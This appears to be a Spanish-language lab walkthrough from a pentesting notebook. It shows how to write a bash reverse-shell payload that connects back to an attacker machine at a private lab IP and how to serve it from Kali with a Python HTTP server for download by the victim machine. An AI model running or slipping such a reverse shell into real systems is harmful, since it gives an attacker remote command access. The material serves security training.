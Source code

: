 - Creamos un Payload basico con el editor nano:
    
    ```Bash
    nano payload.sh
    ```
    

  

![[Imagenes/image 4.png|image 4.png]]

  

- Escribimos el siguiente código que lo que hace básicamente de envió de una Reverse Shell. Guardamos y salimos de nano.  
    La IP pertenece a la maquina atacante.  
    
    ```Bash
    #!/bin/bash
    
    sh -i >& /dev/tcp/10.0.3.4/443 0>&1
    ```
    

  

![[Imagenes/image 1 2.png|image 1 2.png]]

  

- Vamos a crear un servidor web con Python.

```Bash
python3 -m http.server 80
```

  
**python3**: **Llama a la versión 3 de Python**.  
  
**-m http.server**: **Invoca el módulo http.server de Python**, que incluye las funcionalidades necesarias para crear un servidor HTTP básico.  
  
**80**: Especifica que el servidor **usará el puerto 80**, el puerto predeterminado para el protocolo HTTP.  
  
  

![[Imagenes/image 2 2.png|image 2 2.png]]

  

- Esto lo que hace es levantar un servidor web en el puerto 80 dentro del actual directorio dentro de la maquina kali.
- Si vamos a la maquina victima y ponemos la IP de la maquina Kali en el navegador accederíamos al directorio donde he creado el servidor web. De tal forma que si le doy un clip al archivo payload.sh lo descargaría.

  

![[faad3445-f7c7-44b5-a98e-4a045fc997ea.png]]